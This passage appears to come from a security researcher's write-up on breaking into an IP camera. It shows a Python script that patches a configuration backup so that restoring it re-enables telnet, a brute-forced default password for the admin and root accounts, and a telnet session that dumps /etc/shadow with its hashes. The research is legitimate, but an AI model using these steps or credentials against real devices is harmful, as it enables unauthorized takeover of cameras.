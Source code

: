 Note the base64 encoded string. It can be decoded to the "VF" and "HX" chars. We suppose that "HX" corresponds to the camera series and "VF" means "verify":

```
$ echo "ARAAAGh4VkZIWAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" | base64 -d
hxVFHX
```

We added this "secure" chunk to our patched `config_file` archive, using a simple python script:

```
#!/usr/bin/env python

INITIAL_FILE = "initial_config_backup.bin"
PATCHED_FILE = "final_config_backup.bin"

def main():
    with open(INITIAL_FILE, "r") as f:
        initial_file_content = f.read()
    to_patch = initial_file_content[-262:]
    with open(PATCHED_FILE, "r") as f:
        patched_file_content = f.read()
    patched_file_content = (patched_file_content[:-262] + to_patch)
    with open(PATCHED_FILE, 'wb') as f :
        f.write(patched_file_content)


if __name__ == '__main__':
    main()
```

With the newly generated backup file archive, we successfully restored the configuration and, once again, enabled the telnet service!



### Obtaining credentials

We performed a simple bruteforce attack, which revealed the `2601hx` password for both the `admin` and `root` users.

Moreover, we were `sudoers`, with full privileges in the camera operating system:

```
[mickael@m ~]$ telnet 172.20.10.10
Trying 172.20.10.10...
Connected to 172.20.10.10.
Escape character is '^]'.

IPCamera login: admin
Password:
$ su
Password:
$ cat /etc/shadow
root:RdQhwfYI/a1kQ:0:0:99999:7:::
bin:*:10933:0:99999:7:::
daemon:*:10933:0:99999:7:::
adm:*:10933:0:99999:7:::
lp:*:10933:0:99999:7:::
sync:*:10933:0:99999:7:::
shutdown:*:10933:0:99999:7:::
halt:*:10933:0:99999:7:::
uucp:*:10933:0:99999:7:::
operator:*:10933:0:99999:7:::
ftp:*:10933:0:99999:7:::
nobody:*:10933:0:99999:7:::
default::10933:0:99999:7:::
admin:RdQhwfYI/a1kQ:0:0:99999:7:::
```